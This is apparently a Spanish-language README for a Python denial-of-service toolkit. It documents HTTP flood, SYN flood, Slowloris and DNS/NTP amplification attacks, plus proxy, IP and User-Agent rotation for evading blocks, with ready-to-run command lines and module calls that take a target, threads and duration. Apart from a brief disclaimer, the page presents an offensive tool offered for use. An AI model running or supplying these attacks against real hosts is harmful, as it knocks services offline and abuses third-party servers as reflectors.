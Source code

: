 # DoS-Toolkit Python

Implementación en Python de ataques DoS multi-tipo con módulos core reutilizables.

## Características

- **HTTP-Flood**: Envía múltiples solicitudes HTTP GET/POST
- **SYN-Flood**: Inunda con paquetes SYN malformados
- **Slowloris**: Mantiene conexiones HTTP abiertas indefinidamente
- **UDP-Amplification**: Explota servidores DNS/NTP para amplificar tráfico
- **Proxy Utils**: Rotación de proxies, IPs y User-Agents

## Instalación

```bash
pip install -r requirements.txt
```

## Uso

### Desde el CLI Principal

```bash
python ../cli.py
```

Selecciona:
1. Python
2. Tipo de ataque
3. Ingresa parámetros (IP, puerto, threads, duración)

### Uso Directo

```bash
# HTTP-Flood
python attacks.py --attack http_flood --target 192.168.1.1 --port 80 --threads 50 --duration 60

# SYN-Flood (requiere permisos de admin)
python attacks.py --attack syn_flood --target 192.168.1.1 --port 443 --threads 100 --duration 120

# Slowloris
python attacks.py --attack slowloris --target 10.0.0.1 --port 8080 --threads 30 --duration 300

# UDP-Amplification
python attacks.py --attack udp_amplification --target 192.168.1.100 --port 53 --threads 200 --duration 60
```

## Módulos Core

### http_flood.py
```python
from core.http_flood import HTTPFlood

flood = HTTPFlood('target.com', 80)
flood.send_request()  # GET
flood.send_post_request(data='test=1')  # POST
```

### syn_flood.py
```python
from core.syn_flood import SYNFlood

syn = SYNFlood('192.168.1.1', 443)
syn.send_syn_packet()  # Requiere permisos de root
syn.send_syn_packet_simple()  # Versión simplificada
```

### slowloris.py
```python
from core.slowloris import Slowloris

slow = Slowloris('target.com', 80)
slow.send_slow_request()
slow.create_connection()
slow.maintain_connection(sock)
```

### udp_amp.py
```python
from core.udp_amp import UDPAmplification

udp = UDPAmplification('192.168.1.1', 53, 'dns')
udp.send_amplified_packet()
udp.send_dns_amplification('example.com')
udp.send_ntp_amplification()
```

### utils_proxy.py
```python
from core.utils_proxy import ProxyUtils, IPRotation, UserAgentRotation

# Proxies
proxy = ProxyUtils()
proxy.add_proxy('http://10.10.1.10:3128')
proxy.get_random_proxy()

# IPs
ip_rot = IPRotation()
ip_rot.generate_random_ip()

# User-Agents
ua = UserAgentRotation()
ua.get_random_user_agent()
```

## Parámetros

- `--attack`: Tipo de ataque (http_flood, syn_flood, slowloris, udp_amplification)
- `--target`: IP o dominio objetivo
- `--port`: Puerto (default 80)
- `--threads`: Número de threads (default 100)
- `--duration`: Duración en segundos (default 60)

## Requisitos

- Python 3.6+
- Permisos de administrador para SYN-Flood
- Conexión a internet para UDP-Amplification

## Advertencia

⚠️ **USO SOLO CON FINES EDUCATIVOS Y AUTORIZADOS**

Este toolkit está diseñado para:
- Pruebas de seguridad autorizadas
- Investigación académica
- Laboratorios de seguridad

El uso no autorizado es ilegal.

## Estructura

```
python/
├── attacks.py           # Controlador principal
├── core/
│   ├── __init__.py
│   ├── http_flood.py
│   ├── syn_flood.py
│   ├── slowloris.py
│   ├── udp_amp.py
│   └── utils_proxy.py
├── requirements.txt
└── README.md
```

## Licencia

Educativo - Uso responsable
